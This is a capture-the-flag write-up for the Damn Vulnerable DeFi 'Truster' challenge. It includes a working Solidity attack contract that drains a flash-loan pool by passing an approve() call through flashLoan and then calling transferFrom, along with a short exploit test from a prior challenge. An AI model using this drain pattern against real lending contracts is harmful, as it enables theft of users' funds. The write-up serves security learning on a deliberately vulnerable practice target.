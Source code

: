 ```solidity
    it('Exploit', async function () {
        for(let i=0; i<10;i++)
        this.pool.flashLoan(await this.receiver.address, 0)
    });
```

- - -

## CTF name: Damn Vulnerable DeFi
### Challenge name: Truster
### Challenge description:
    More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

    Currently the pool has 1 million DVT tokens in balance. And you have nothing.

    But don't worry, you might be able to take them all from the pool. In a single transaction.


### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty


In this challenge, we need to take all 1 million DVT token from the pool. This pool offers flashLoan and it allows any function call to be executed during the flash loan. Since we can call any function from __TrusterLenderPool contract__, we can call __approve()__ function of DVT token contract. Here is attack contract. 

```solidity
contract AttackTruster{

    function attackTrusterLenderPool(IERC20 token, TrusterLenderPool pool, address attacker) public beforeAfter(token, attacker){
        uint256 balance = IERC20(token).balanceOf(address(pool));
        bytes memory approveData = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);

        pool.flashLoan(0, attacker, address(token), approveData);

        token.transferFrom(address(pool), attacker, balance);
    }
}
```

Here is how it goes. We first get the balance of DVT token of pool and get payload of `approve()` function that allows attacker can withdraw the DVT tokens. Since pool will be the caller of approve function, it does not revert. Then execute flashloan. The first argement of flashLoan function should be 0, so we do not have to payback. All after that, we can withdraw 1 million DVT token using __transferFrom()__.


